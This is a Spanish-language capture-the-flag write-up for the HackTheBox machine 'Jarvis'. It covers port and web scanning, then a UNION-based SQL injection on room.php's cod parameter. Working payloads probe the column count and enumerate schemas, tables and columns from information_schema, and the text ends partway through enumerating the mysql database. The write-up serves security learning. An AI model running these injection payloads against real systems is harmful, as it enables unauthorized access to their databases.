

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/jarvis/index.html · generator: mkdocs

# Jarvis

```bash
nmap -p- -sCV --min-rate=5000 -n 10.129.16.156 -oN nmapScan.txt
```

![](../../assets/img/Pasted_image_20260304185208.png)

```bash
whatweb http://10.129.16.156
```

![](../../assets/img/Pasted_image_20260304185332.png)

- Apache 2.4.25 (Debian)
- ironwaf -> waf es cortafuegos (web application firewall)

- Encontramos que la web es vulnerable a sqli en */room.php?cod=x*

- Empezamos a enumerar para ver cuántos parámetros que hay
```bash
http://10.129.16.156/room.php?cod=4 order by 8-- -
```

![](../../assets/img/Pasted_image_20260304191003.png)

No se muestra nada, se rompe la query

```bash
http://10.129.16.156/room.php?cod=4 order by 7-- -
```

![](../../assets/img/Pasted_image_20260304191722.png)

Obtenemos resultado por lo que hay 7 columnas

- comenzamos a enumerar info
```sql
8 union select 1,database(),3,4,5,6,7
```

->

![](../../assets/img/Pasted_image_20260305163959.png)

```sql
8 union select 1,2,3,4,group_concat(schema_name),6,7 from information_schema.schemata
```

hotel,information_schema,mysql,performance_schema

```sql
8 union select 1,2,3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema = 'hotel'
```

room

```sql
8 union select 1,2,3,4,group_concat(column_name),6,7 from information_schema.columns where table_schema = 'hotel' and table_name = 'room'
```

cod,name,price,descrip,star,image,mini
No vemos ninguna columna/tabla donde podamos obtener info de usuarios
- Tiraremos por la database mysql para intentar enumerar usuarios

- *database mysql*
```sql
8 union select 1,2,3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema = 'mysql'
```
